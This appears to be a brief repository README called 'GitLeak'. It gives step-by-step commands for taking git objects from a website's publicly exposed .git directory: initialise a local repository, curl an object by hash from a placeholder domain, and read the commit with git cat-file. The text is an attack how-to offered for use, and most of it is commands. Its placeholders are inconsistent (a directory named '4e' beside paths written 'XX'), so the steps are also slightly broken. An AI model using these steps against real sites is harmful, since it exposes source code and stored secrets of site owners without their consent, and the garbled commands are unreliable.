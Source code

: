 # GitLeak
if u found a hash , just use following commands


fULL HASH < XXHASH >


git init 


mkdir .git/objects/4e/ && curl http://[DOMAIN.COM]/.git/objects/XX/HASH -o .git/objects/XX/HASH

After , to read the commit 

git cat-file -p xxHASH
